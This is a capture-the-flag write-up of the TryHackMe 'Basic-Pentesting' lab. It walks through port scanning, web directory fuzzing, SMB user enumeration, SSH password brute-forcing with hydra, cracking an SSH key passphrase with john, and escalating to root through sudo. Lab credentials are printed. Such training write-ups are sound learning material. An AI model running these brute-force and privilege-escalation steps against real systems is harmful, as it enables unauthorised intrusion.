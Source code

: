 # Basic-Pentesting

**IP:** 10.10.237.124  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 31/05/2025

## Summary

A well-rounded, beginner friendly room that involves some basic brute forcing, hash cracking, service enumeration and Linux privilege escalation techniques. 

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.237.124 -oA nmap/Basic-Pentesting
```

| Port | Service     | Version                         |
| ---- | ----------- | ------------------------------- |
| 22   | ssh         | OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 |
| 80   | http        | Apache httpd 2.4.18             |
| 139  | netbios-ssn | Samba smbd 3.X - 4.X            |
| 445  | netbios-ssn | Samba smbd 4.3.11-Ubuntu        |
| 8009 | ajp13       |                                 |
| 8080 | http-proxy  | Apache Tomcat/9.0.7             |

## Enumeration

Found a `/development` directory on the Apache webserver (:80).
```bash
ffuf -u http://10.10.237.124:80/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -fc 403 -v

[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
| URL | http://10.10.237.124:80/development
| --> | http://10.10.237.124/development/
    * FUZZ: development
```

Downloaded the two text files in the directory `dev.txt` and `j.txt`
```bash
wget -rq -np -nH --cut-dirs=1 --reject "index.html*" -e robots=off http://10.10.237.124/development/;ls

dev.txt  j.txt
```

The file `j.txt ` reveals that J has a weak password
```
cat j.txt  

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

Found a `/manager` directory on the Tomcat server (:8080) that requires simple authentication.
```bash
ffuf -u http://10.10.237.124:8080/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -c -fc 403 -v

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 26ms]
| URL | http://10.10.237.124:8080/manager
| --> | /manager/
    * FUZZ: manager
```

Used my tool `ridwalk` to find two users `jen` and `kay` on the Samba server (:445) via SMB.
```bash
python3 ~/scripts/ridwalk/ridwalk.py 10.10.137.1                                                   
[*] Target: 10.10.137.1 (Unix/Linux Samba)
[*] Authentication: anonymous
[+] Connection status: OK

RID    Type   Name
--------------------------------------------------
1000   User   kay
1001   User   jan
```

## Exploitation

As `j.txt ` mentioned that J(an) had a weak password, I brute-forced it with hydra.
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.137.1 -t 10 -vI  

...
[22][ssh] host: 10.10.137.1   login: jan   password: armando
...
```

## Privilege Escalation

After logging into the machine as `jan` via SSH, I ran `linpeas.sh` to discover that `kay`'s SSH private `/home/kay/.ssh/id_rsa` is readable as `jan`.
```
╔══════════╣ Searching ssl/ssh files
╔══════════╣ Analyzing SSH Files (limit 70)                                                                                                                    
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 /home/kay/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
```

Copied it to my local machine.
```
ssh2john id_rsa > hash
```

Cracked the passphrase with `ssh2john` and `john`.
```   
john hash --wordlist=/usr/share/wordlists/rockyou.txt

...
beeswax          (id_rsa)     
...
```

SSH'd as `kay` and found a `pass.bak` file in their home directory which revealed their password.
```
cat pass.bak 

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Used this password to check what the `kay` user could run on the machine as `sudo`, turns out they have full `sudo` permissions!
```
sudo -l
[sudo] password for kay: 
...
User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```

Switched to root.
```
sudo su -

root@basic2:~#
```

---

#nmap #ffuf #hydra #ssh-bruteforce #smb-enum #ssh2john #linpeas #sudo-privesc